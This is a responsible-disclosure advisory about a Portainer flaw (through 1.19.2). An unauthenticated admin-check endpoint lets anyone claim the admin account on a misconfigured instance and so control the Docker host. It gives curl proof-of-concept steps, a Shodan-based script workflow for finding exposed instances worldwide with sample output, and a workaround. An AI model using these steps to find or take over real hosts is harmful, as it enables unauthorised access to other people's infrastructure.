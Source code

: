 Responsible Disclosure

# Portainer - Check if admin already created by a public API endpoint

## PRODUCT DESCRIPTION

[PORTAINER](https://portainer.io) IS AN OPEN-SOURCE LIGHTWEIGHT MANAGEMENT UI WHICH ALLOWS YOU TO EASILY MANAGE YOUR DOCKER HOSTS OR SWARM CLUSTERS

## BACKGROUND

- Portainer until 1.19.2

## VULNERABILITY DETAILS

Portainer provides an API endpoint (/api/users/admin/check) to verify that the admin user is already created. This API endpoint will return 404 if admin was not created and 204 if it was already created. This "feature" allows anyone to receive unauthorized access on the host when the portainer is configured incorrectly.

## PROOF OF CONCEPT

Manual steps to reproduce the vulnerability:

1. docker run --rm -it -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer
2. curl -X GET -s -o /dev/null -w "%{http_code}" http://127.0.0.1:9000/api/users/admin/check
3. If curl return 404, open web-browser and create a admin password. xdg-open http://127.0.0.1:9000

Applying this around the world with shodan:

```bash
git clone git@github.com:lichti/shodan-portainer.git
virtualenv --python python3 .venv
source .venv/bin/activate
pip install -r requirements.txt
export SHODAN_API_KEY=xxxxxxxxxxxxxxxxxxxxxxx
python portainer.py
```

If you has a paid plan, you can use a filters:

```bash
export SHODAN_FILTER = 'country:"BR"'
python portainer.py
```

Output example:

```txt
Country: US | ISP: Digital Ocean | http://142.x.y.158:9001/
Country: CA | ISP: Atlantic.net  | http://45.x.y.165:9000/
Error: skipping 206.x.y.63
```

## WORKAROUND

Forcing the admin password by extra parameter on portainer CLI - [configuration.html#admin-password](https://portainer.readthedocs.io/en/stable/configuration.html#admin-password). On source code [portainer.go#L13-L14](https://github.com/portainer/portainer/blob/develop/api/portainer.go#L13-L14).

## VULNERABILITY DISCLOSURE TIMELINE

**2018-11-19:** Vendor was contacted

## AUTHOR & REVISION

**Author:** Gustavo Lichti <gustavo.lichti@gmail.com>

**Revision:** 
